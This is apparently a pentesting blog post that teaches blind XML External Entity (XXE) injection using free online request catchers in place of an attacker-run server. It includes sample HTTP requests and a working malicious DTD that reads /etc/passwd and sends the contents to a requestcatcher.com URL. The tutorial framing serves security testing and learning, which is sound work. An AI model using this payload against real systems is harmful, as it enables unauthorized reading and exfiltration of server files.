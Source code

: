```yaml
---
layout:     post
title:      "XML External Entity (XXE) Injection Without Personal Servers"
date:       2019-06-22
author:     "Tech"
header-img: "img/post-XXE-injection-without-personal-servers.jpeg"
tags:
    - Pentesting
    - XXE
---
```


## XML External Entity (XXE) Injection Without Personal Servers

--------

Most post I read online regarding XXEs introduce the idea of spinning up a quick webserver to deliver and recieve content. While testing out some XXEs vulnerabilities, I didn't have the luxury of port forwarding my network, or spinning up a digital ocean droplet. I found a clever way to still conduct my testing under these constraints that I'll be talking about in this post. 

---------

### What is XXE?

An XML External Entity (XXE) injection is a serious flaw that allows an attacker to read local files on the server, access internal networks, scan internal ports, or execute commands on a remote server. It targets applications that parse XMLs.

This attack occurs when an XML input containing references to an external entity is processed by a weakly configured XML parser. The attacker takes advantage of it by embedding malicious inline DOCTYPE definition in the XML data. When the web server processes the malicious XML input, the entities are expanded, which results in potentially gaining access to a web server's file system, remote file system access, or establishing  connections to arbitrary hosts over HTTP/HTTPS.



---------

### Post Request

I'll assume you already know that the framework your working is can accept XML entities.

We'll typically see a regular post request look like:

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: anthonys.io
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

Turning the above POST request into an XML request by removing some clutter, and changing the Content-type header.

```header
POST /login-form HTTP/1.1
Host: vulnerable.host
User-Agent: anthonys.io
Connection: close
Content-Type: text/xml
Content-Length: 30

<?xml version="1.0"?>
<test>tested</test>
```

---------

### Serving the DTD

A "Valid" XML document is a "Well Formed" XML document, which also conforms to the rules of a DTD:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "WEBSITE/test.dtd">
<test>&e1;</test>
```

The DOCTYPE declaration, in the example above, is a reference to an external DTD file.

In this case, we'll be supplying an external DTD. This is what spark the making of this post. Since I didn't want to setup port forward on my home network, or had any usable droplets from digital ocean on hand. The best way was to chain it with various online catchers.

---------
### Request Catcher

Just as the title says, the last request made will be set to [requestcatcher.com](requestcatcher.com). Set up a URL, in this case I set: 

> https://tech.requestcatcher.com

We'll inject this URL in the callback in the webhooking session. All in all, here is where we will see the contents of the command we used, in this case it's the contents of /etc/passwd on the webserver.

---------
### Webhooking

Example url: 
>webhook.site/aaf35306-2e6a
Be sure to use this URL in the 'Serving the DTD' section, replace WEBSITE/test.dtd with this URL.

I went with [https://webhook.site](https://webhook.site) for catching the test.dtd request. One great option is that your able to 'Edit' the URL information on this hook.

You'll want to insert the below into the Response body of the webhook.site site. Add in the Request Catcher URL from above to catch the response of the command.

```xml
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'https://tech.requestcatcher.com?/test?%p1;'>">
%p2;
```
This DTD will force the XML parser to read the content of /etc/passwd and assigned it to the variable p1. Then it will create another variable p2 that contains a link to your malicious server and the value of p1. Finally it will print the value of p2 using the %p2.

---------
### Game Play

A quick break down:

We sent a post request calling out an external DTD (webhook.site), on the webhook site. On our webhook.site, we setup the response body to read the /etc/passwd file, and send those results to the request catcher website. The request catcher will read all request and print out what is shown. 

All in all:

![](/home/a/Pictures/xxe-passwd.png) 

---------
### Notes

You don't need to run with HTTPS for everything. I only got the above results after switching all URLs to http.

External Link with valuable Information:

>[https://pentesterlab.com/exercises/play_xxe](https://pentesterlab.com/exercises/play_xxe) 

---------
